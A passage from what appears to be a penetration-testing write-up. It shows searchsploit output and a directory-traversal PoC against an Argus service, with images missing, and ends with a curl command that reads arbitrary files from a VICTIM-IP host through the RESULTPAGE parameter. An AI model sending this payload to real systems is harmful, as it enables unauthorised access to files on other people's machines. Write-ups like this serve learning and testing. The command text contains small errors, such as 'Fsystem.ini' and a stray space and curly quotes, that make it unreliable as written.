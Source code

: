 Illustration 8. Output de Searchsploit

Several exploits are found, but the most interesting is the third: directory traversal to LFI. This is the PoC:

![image](Picture9.png)

Figure 9. Argus vulnerability PoC.

Running the PoC, it can be seen that the service is vulnerable since we can read the C:\\Windows\\Fsystem.ini file from the host machine:

![image](Picture10.png)

Figure 10. Exploit Result: LFI

Here we have our LFI! That is, with the command:
```sh
curl “http://VICTIM-IP:8080/WEBACCOUNT. CGI? OkBtn=++Ok++&RESULTPAGE=\[PATH_DEL_ARCHIVO_QUE_QUEREMOS\]&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=”
```
